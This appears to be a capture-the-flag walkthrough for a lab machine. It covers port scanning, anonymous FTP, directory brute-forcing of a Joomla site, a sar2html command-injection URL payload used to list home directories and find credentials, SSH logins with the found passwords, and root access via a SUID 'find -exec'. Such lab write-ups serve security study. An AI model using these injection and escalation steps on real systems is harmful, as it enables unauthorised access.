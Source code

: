 # recon.
Like always, start with nmap. I use my own tool to automate nmap scan, check it out [pymap](https://github.com/bibo318/pymap)
```console
$ python3 pymap.py -t $IP --all
```
there are 4 open port:
- 21/tcp    open  ftp
- 80/tcp    open  http
- 10000/tcp open  snet-sensor-mgmt
- 55007/tcp open  ssh


## port 21
from nmap scan you should note that FTP is open for Anonymous log in. (`ftp-anon: Anonymous FTP login allowed (FTP code 230)`) so let check it out:
```console
bibo318@parrot:~/THM/boiler$ ftp $IP 
Connected to 10.10.108.17.
220 (vsFTPd 3.0.3)
Name (10.10.108.17:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .info.txt (74 bytes).
226 Transfer complete.
74 bytes received in 0.00 secs (29.5565 kB/s)
```
now back to kali:
```
bibo318@parrot:~/THM/boiler$ cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
from the looks of the cipher, you can already tell that it is a substitution cipher. substitution cipher works in a way that it "rotate" each character. 

Any how the message was
```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```
seem like we got trolled by the room creater... so let move on to the next port.

## Port 80
Like always start fire up ur gobuster or ur favorite web directory brute forcing tool
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
While you are waiting for the result, go explore the web (happy path). I found something in  `robots.txt`
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
you can try to decryp the cipher if you want to but I can sell you direcly that you will not get anything out of it. Seem like the `MrSeth6797` (room creator) love to troll us.


anyhow I found out that the web is hosting `/joomla` There is nothing much on the blog. only one post. so let dig more by running gobuster at `/joomla`
```console
$ gobuster dir -u http://$IP/joomla -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found
```
/LICENSE.txt (Status: 200)
/README.txt (Status: 200)
/_a______ (Status: 301)
/_d_____ (Status: 301)
/_f___ (Status: 301)
/_t___ (Status: 301)
/administrator (Status: 301)
/bin (Status: 301)
/build (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/installation (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/templates (Status: 301)
/tests (Status: 301)
/tmp (Status: 301)
/~ww__ (Status: 301)
```
This is my 3rd time working with Joomla. By looking at the results, There is some dikectory that is looks juicy.
1. /administrator: admin login page
2. /_a______ (Status: 301)
3. /_da____ (Status: 301)
4. /_f___ (Status: 301)
5. /_t__ (Status: 301)
6. /~ww__ (Status: 301)


number 2-6 are directories that not included in joomla by defualt which is worth checking.

Since im already done with this room, I can tell you direcly that some of them are just a rabbit hole, `MrSeth6797` just messing with us.

anyhow you will find the "rigth" one on the list above? how do I know that?
1. There is something that it is not there by defualt
2. I found an exploit after I google about it


So the site run `sar2html`. In short, Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's library. if you search 

if you search for `sar2html exploit` you will find a RCE exploit which we can use to for farther attack. you can find the exploit [here](https://www.exploit-db.com/exploits/47204)

```
In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```
so the plan is us this to enumerate the server and hope that we might find some juicy info such as, usernames/password.

so I started with checking for users by checking if it work by execute `whoami`. **BOOM** ! it works !! then I execute `/index.php?plot=;ls ../../../../../home/` the figure below show the result.

![whoami](../pic/Screenshot%202020-08-07%20at%2019.42.36.png)


![users](../pic/Screenshot%202020-08-07%20at%2019.43.14.png)

I found a juicy at `www-data` home directory which contain **Basterd's password**. **Hint**:
<details>log.txt</details>

## foot hold
now ssh to the victim server using Basterd credential. dont forget that ssh is on port 5507. here is what you will find on Basterd home directory
```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
```
You should already tell that `backup.sh` is juicy!!
1. stoner is the owner of the files.
2. the name of the file
3. it is a shell/bash script

Examine `backup.sh`, You will find Stoner's password. Back to kali, ssh to the victim server again but using Stoner's credential this time.
```console
stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Aug  7 21:12 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Aug  7 21:12 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
```
now grep the user flag (.secret)

# root
You can start with `sudo -l` if you wanna but I can tell you direcly it is just another rabbit whole. `MrSeth6797` he did it again...

The next step is looking for `SUID`, if you dont know what `SUID` is, pls do some research by youself. Anyway, I use suid3num.py to enumerate `SUID`. You can find the tool on github [link](https://github.com/Anon-Exploiter/SUID3NUM). Tranfer the script to victim server and run it
```
[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/find -~> https://gtfobins.github.io/gtfobins/find
------------------------------
```
**MashaAllah**, let use it to get root flag!!
```console
stoner@Vulnerable:~$ find *.py -exec whoami \;
root
stoner@Vulnerable:~$ find *.py -exec ls /root/ \;
root.txt
```
